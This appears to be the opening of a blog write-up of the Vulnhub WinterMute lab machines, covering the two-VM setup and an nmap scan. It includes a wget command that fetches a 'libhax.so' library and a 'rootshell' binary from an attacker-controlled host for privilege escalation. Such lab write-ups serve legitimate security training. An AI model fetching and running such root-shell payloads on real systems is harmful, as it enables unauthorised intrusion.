 ```yaml
---
layout: post
title: Vulnhub - WinterMute writeup
date: 2019-07-26 12:03
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/wintermute-1,239/">WinterMute</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/_creosote"> Melvin</a></h4>

***

This is going to be a very cool machine because it's two VMs named `strayligth` and `neuromancer` and we need to pwn `straylight` which is basically a `user` machine and then from there we have to pivot to the another `neuromancer`.

***

```
wget http://192.168.56.1:8000/libhax.so; wget http://192.168.56.1:8000/rootshell
```

## Nmap

![](images/mute/nmap.png)

We can see the smtp server running. The interesting one is port `3000` which is running `hadoop-datanode` , a service I've seen for the first time on any VM.

Let's start with HTTP and see what we can find.
